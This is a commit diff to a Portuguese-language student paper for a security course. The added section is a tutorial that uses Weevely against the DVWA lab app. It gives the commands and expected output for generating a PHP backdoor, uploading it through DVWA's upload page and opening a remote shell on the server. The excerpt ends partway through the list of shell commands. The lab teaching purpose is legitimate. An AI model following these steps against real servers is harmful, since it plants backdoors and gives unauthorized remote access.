

Before and after one commit to PedroBinotto/INE5680-2025.02, a LaTeX paper (trabalho_1/latex/article.tex): part of page 12 of 12 before the commit and two parts of pages 12 and 13 of 14 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with XeLaTeX.

Commit message:
trabalho 2

```diff
--- a/trabalho_1/latex/article.tex
+++ b/trabalho_1/latex/article.tex
@@ -468,7 +468,73 @@
 
 Conteúdo de parágrafo
 \subsection{Q7}
-\subsubsection{Subsecção}
-\paragraph{}
 
-Conteúdo de parágrafo
+\paragraph{Proposta ---} enunciado na \textit{Questão 7}:
+
+\begin{quote}
+Use alguma outra ferramenta da Parrot e faça seu próprio experimento. Você pode pesquisar no livro ``Pentest em
+  Aplicações Web'' para entender como fazer algo. A escolha é sua.
+  \item Demonstre com screenshots o experimento realizado;
+  \item Explique algum detalhe da saída obtida;
+  \item Organize o seu experimento na forma de um tutorial: faça uma descrição do experimento e da saída obtida. Esse
+    tutorial pode servir para outros alunos usarem a ferramenta. Entregue um arquivo .doc ou .odt com o texto dessa
+    questão;
+\end{quote}
+
+\subsubsection{Solução --- \textbf{Weevely}}
+
+\paragraph{}Neste experimento, utilizamos o \textbf{Weevely}, um web shell PHP leve projetado para administração remota de servidores e testes de penetração. Ele gera um arquivo PHP malicioso que pode ser carregado em um site vulnerável (neste caso, a DVWA - Damn Vulnerable Web Application), permitindo acesso remoto ao shell.
+
+\paragraph{Passo 1: Executar o Weevely}
+
+\begin{lstlisting}
+$ weevely
+\end{lstlisting}
+
+\textbf{Saída esperada:}
+
+\begin{lstlisting}
+weevely 4.5
+Usage: weevely generate <password> <output_file>
+       weevely <url> <password>
+\end{lstlisting}
+
+\paragraph{Passo 2: Gerar um Backdoor}
+
+\begin{lstlisting}
+$ weevely generate pass shell.php
+\end{lstlisting}
+
+\textbf{Exemplo de saída:}
+
+\begin{lstlisting}
+[*] Backdoor 'shell.php' generated successfully.
+[*] Password: pass
+\end{lstlisting}
+
+\paragraph{Passo 3: Upload do Backdoor}
+
+No navegador, acesse \texttt{http://[IP\_DA\_OWASP]/dvwa}, vá até a seção \textbf{Upload}, selecione \texttt{shell.php} e clique em \textbf{Upload}.
+
+\paragraph{Passo 4: Conectar ao Shell Remoto}
+
+\begin{lstlisting}
+$ weevely http://[IP_DA_OWASP]/dvwa/hackable/uploads/shell.php pass
+\end{lstlisting}
+
+\textbf{Saída esperada:}
+
+\begin{lstlisting}
+weevely 4.5 connected to http://[IP_DA_OWASP]/dvwa/hackable/uploads/shell.php
+weevely>
+\end{lstlisting}
+
+\paragraph{Passo 5: Explorar o Servidor}
+
+Listar comandos disponíveis:
+
+\begin{lstlisting}
+weevely> :help
+Available commands:
+  :system_info   Show server system information
+  :ls            List files and directories
```
Also changed, not shown: trabalho_2/ASSIGNMENT.pdf (added), trabalho_1/latex/article.tex (40 more changed lines).
